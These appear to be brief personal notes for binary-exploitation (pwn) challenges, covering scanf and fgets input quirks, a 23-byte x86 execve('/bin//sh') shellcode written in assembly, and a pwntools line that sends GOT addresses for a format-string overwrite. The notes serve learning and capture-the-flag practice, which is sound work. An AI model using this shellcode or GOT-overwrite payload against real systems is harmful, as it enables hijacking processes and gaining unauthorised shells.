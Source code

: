 ### Rusty notes ###

- scanf: terminated after space (be careful)
- fgets: need to fill with exact bytes

- shellcode payload:
payload = ```
"""
    xor eax,eax
    push eax
    push 0x68732f2f 
    push 0x6e69622f 
    mov ebx,esp
    push eax
    push ebx
    mov ecx,esp
    mov al,0xb
    int 0x80 
"""
```
size = 23 bytes

Too lazy to use format strings in pwntool so:
p.sendline(p32(got_addr)+p32(got_addr+1)+p32(got_addr+2)+p32(got_addr+3)

